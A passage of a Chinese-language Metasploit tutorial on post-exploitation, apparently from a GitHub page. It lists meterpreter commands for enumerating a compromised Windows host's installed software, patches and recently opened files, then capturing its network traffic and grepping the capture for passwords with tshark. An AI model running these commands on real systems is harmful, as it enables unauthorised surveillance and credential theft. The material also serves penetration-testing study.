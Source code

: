 ### 查看目标主机安装的程序、补丁以及最近操作的文件

很多情况我们需要知道目标系统上到底安装了哪些软件，以便我们针对不同安装的软件进行渗透操作。也许你希望查看用户最近操作了哪些文件或者程序。

```shell
# 获取目标主机最近进行的系统操作、访问文件和office文档操作记录
meterpreter > run post/windows/gather/dumplinks
# 获取目标主机安装的软件、安全更新与漏洞补丁信息
meterpreter > run post/windows/gather/enum_applications
```

### 抓取目标主机网络流量

使用sniffer可以获取用户网络IO流量，用于分析目标主机网络数据。

```shell
# 查看目标主机网络接口
meterpreter > sniffer_interfaces
# 指定网卡编号进行嗅探抓包
meterpreter > sniffer_start 1 30000
# 查看当前抓包的情况
meterpreter > sniffer_stats 1
# 将流量数据写入cap文件
meterpreter > sniffer_dump 1 /tmp/capture.cap
# 关闭嗅探
meterpreter > sniffer_stop 1

# 使用tshark分析cap数据包获取私密信息
[root@kalibook 00:06:56 ~]# tshark -r /tmp/capture.cap | grep PASS
# 使用wireshark分析cap数据包
[root@kalibook 00:06:56 ~]# wireshark /tmp/capture.cap
```